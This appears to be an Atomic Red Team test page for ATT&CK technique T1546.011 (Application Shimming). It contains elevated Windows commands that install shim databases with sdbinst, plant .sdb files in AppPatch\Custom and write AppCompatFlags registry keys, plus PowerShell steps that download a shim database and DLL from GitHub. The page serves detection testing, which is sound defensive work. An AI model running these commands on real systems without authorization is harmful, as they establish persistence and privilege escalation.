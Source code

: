 # T1546.011 - Application Shimming
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1546.011)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by application shims. The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Endgame Process Injection July 2017)

Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses hooking to redirect the code as necessary in order to communicate with the OS. 

A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

* <code>%WINDIR%\AppPatch\sysmain.sdb</code> and
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

* <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code> and
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have administrator privileges to install a shim. However, certain shims can be used to [Bypass User Access Control](https://attack.mitre.org/techniques/T1548/002) (UAC and RedirectEXE), inject DLLs into processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and intercept memory addresses (GetProcAddress).

Utilizing these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors, disable defenses like Windows Defender, etc. Shims can also be abused to establish persistence by continuously being invoked by affected programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Application Shim Installation](#atomic-test-1---application-shim-installation)

- [Atomic Test #2 - New shim database files created in the default shim database directory](#atomic-test-2---new-shim-database-files-created-in-the-default-shim-database-directory)

- [Atomic Test #3 - Registry key creation and/or modification events for SDB](#atomic-test-3---registry-key-creation-andor-modification-events-for-sdb)


<br/>

## Atomic Test #1 - Application Shim Installation
Install a shim database. This technique is used for privilege escalation and bypassing user access control.
Upon execution, "Installation of AtomicShim complete." will be displayed. To verify the shim behavior, run 
the AtomicTest.exe from the <PathToAtomicsFolder>\\T1546.011\\bin directory. You should see a message box appear
with "Atomic Shim DLL Test!" as defined in the AtomicTest.dll. To better understand what is happening, review
the source code files is the <PathToAtomicsFolder>\\T1546.011\\src directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to the shim database file | String | PathToAtomicsFolder&#92;T1546.011&#92;bin&#92;AtomicShimx86.sdb|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sdbinst.exe #{file_path}
```

#### Cleanup Commands:
```cmd
sdbinst.exe -u #{file_path}
```



#### Dependencies:  Run with `powershell`!
##### Description: Shim database file must exist on disk at specified location (#{file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicShimx86.sdb" -OutFile "#{file_path}"
```
##### Description: AtomicTest.dll must exist at c:\Tools\AtomicTest.dll
##### Check Prereq Commands:
```powershell
if (Test-Path c:\Tools\AtomicTest.dll) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path c:\Tools\AtomicTest.dll) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicTest.dll" -OutFile c:\Tools\AtomicTest.dll
```




<br/>
<br/>

## Atomic Test #2 - New shim database files created in the default shim database directory
Upon execution, check the "C:\Windows\apppatch\Custom\" folder for the new shim database

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb
Copy-Item $PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb
```

#### Cleanup Commands:
```powershell
Remove-Item C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb -ErrorAction Ignore
Remove-Item C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Registry key creation and/or modification events for SDB
Create registry keys in locations where fin7 typically places SDB patches. Upon execution, output will be displayed describing
the registry keys that were created. These keys can also be viewed using the Registry Editor.

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
```





<br/>
